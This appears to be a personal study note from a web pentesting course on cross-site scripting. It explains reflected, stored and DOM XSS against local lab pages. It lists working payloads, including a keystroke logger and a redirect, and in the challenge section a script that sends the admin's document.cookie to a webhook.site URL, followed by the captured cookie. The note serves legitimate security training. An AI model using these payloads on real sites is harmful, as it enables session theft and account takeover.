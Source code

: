 # Web App - XSS

> - [Cross-Site Scripting (XSS) Cheat Sheet - 2024 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

➡️ **Cross-site scripting** (**XSS**) allows an attacker to compromise the interactions of the users with a vulnerable application. It lets the attacker execute (malicious) **JavaScript** in a victim's browser, compromising the user's interaction with the application.

- **Reflected XSS**
  - when an application unsafely includes user-supplied data (injected script) from an HTTP request in its immediate response
  - payload (malicious script) come from the current HTTP request
- **Stored XSS**
  - when an application receives and stores data from an untrusted source and unsafely includes it within its later HTTP responses
  - payload (malicious script) come from the application's database
- **DOM-based XSS**
  - when client-side Javascript (code) unsafely processes data from an untrusted source and writes it back to the DOM
  - everything happens locally in the browser

```bash
alert(1)
print()
prompt("Hello")

# log pressed key
function logKey(event){console.log(event.key)}
document.addEventListener('keydown', logKey)
```

---

## XSS - DOM

- The request happens entirelly locally
  - no request seen in the browser **Dev Tools / Network** tab
- Try some basic payloads

```bash
<script>prompt(1)</script>
# did not work, it is not called/triggered

<img src=x onerror ="prompt(1)">
# works - injects an event-driven JavaScript payload that executes prompt(1) when the image fails to load due to an invalid source

<img src=x onerror ="window.location.href='https://tcm-sec.com'">
# redirect the user to another webpage
```

- The lab can be used for testing other payloads

---

## Stored XSS

- To check if XSS is stored for more users, use
  - incognito sessions
  - or [Firefox Containers](https://addons.mozilla.org/en-US/firefox/addon/multi-account-containers/)
  - to create 2 different environments with separate/difference accounts
- First try some HTML injection, once found out if it works, XSS follows
  - every user that visits the page is impacted by the **stored XSS payload**

```bash
<h1>Test</h1>
# works - check on the second environment the Stored XSS

<script>prompt(1)</script>
# works - refresh second environment and you'll see the prompt

<script>alert(document.cookie)</script>
# Cookie can be stolen
```

![](.gitbook/assets/2025-02-25_22-01-04_910.png)

---

## XSS - Challenge

- Open `http://localhost/labs/x0x03.php` first Firefox container
- Open `http://localhost/labs/x0x03_admin.php` in the second container
- Goal - exfiltrate the admin cookie
- Use `netcat` or [https://webhook.site](https://webhook.site) (not for private traffic)
  - use **Collaborator** (with BurpSuite Pro)

```bash
<script>var i = new Image; i.src="https://webhook.site/4a14cea0-1e8c-4707-a596-cf1939bd4a76/?"+document.cookie</script>
```

```bash
admin_cookie
5ac5355b84894ede056ab81b324c4675
```

![](.gitbook/assets/2025-02-25_23-17-21_912.png)

---

